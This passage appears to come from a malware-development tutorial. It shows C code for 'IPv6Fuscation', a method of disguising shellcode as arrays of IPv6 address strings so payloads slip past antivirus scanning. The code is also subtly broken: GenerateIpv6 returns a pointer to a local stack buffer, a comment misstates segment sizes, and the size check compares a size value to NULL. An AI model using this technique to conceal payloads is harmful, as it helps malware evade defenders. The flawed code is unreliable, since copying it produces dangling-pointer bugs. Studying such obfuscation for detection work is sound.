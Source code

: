 ```
	printf("\n};\n\n");
	return TRUE;
}

```
### **IPv6Fuscation Implementation**

When using IPv6Fuscation, the shellcode should be a multiple of 16. Again, it's possible to create a function that pads the shellcode if it doesn't meet that requirement.


```
// Function takes in 16 raw bytes and returns them in an IPv6 address string format
char* GenerateIpv6(int a, int b, int c, int d, int e, int f, int g, int h, int i, int j, int k, int l, int m, int n, int o, int p) {

	// Each IPv6 segment is 32 bytes
	char Output0[32], Output1[32], Output2[32], Output3[32];

	// There are 4 segments in an IPv6 (32 * 4 = 128)
	char result[128];

	// Generating output0 using the first 4 bytes
	sprintf(Output0, "%0.2X%0.2X:%0.2X%0.2X", a, b, c, d);

	// Generating output1 using the second 4 bytes
	sprintf(Output1, "%0.2X%0.2X:%0.2X%0.2X", e, f, g, h);

	// Generating output2 using the third 4 bytes
	sprintf(Output2, "%0.2X%0.2X:%0.2X%0.2X", i, j, k, l);

	// Generating output3 using the last 4 bytes
	sprintf(Output3, "%0.2X%0.2X:%0.2X%0.2X", m, n, o, p);

	// Combining Output0,1,2,3 to generate the IPv6 address
	sprintf(result, "%s:%s:%s:%s", Output0, Output1, Output2, Output3);

	// Optional: Print the 'result' variable to the console
	// printf("[i] result: %s\n", (char*)result);

	return (char*)result;
}


// Generate the IPv6 output representation of the shellcode
// Function requires a pointer or base address to the shellcode buffer & the size of the shellcode buffer
BOOL GenerateIpv6Output(unsigned char* pShellcode, SIZE_T ShellcodeSize) {
	// If the shellcode buffer is null or the size is not a multiple of 16, exit
	if (pShellcode == NULL || ShellcodeSize == NULL || ShellcodeSize % 16 != 0){
		return FALSE;
	}
	printf("char* Ipv6Array [%d] = { \n\t", (int)(ShellcodeSize / 16));

	// We will read one shellcode byte at a time, when the total is 16, begin generating the IPv6 address
	// The variable 'c' is used to store the number of bytes read. By default, starts at 16.
	int c = 16, counter = 0;
	char* IP = NULL;

	for (int i = 0; i < ShellcodeSize; i++) {
		// Track the number of bytes read and when they reach 16 we enter this if statement to begin generating the IPv6 address
		if (c == 16) {
```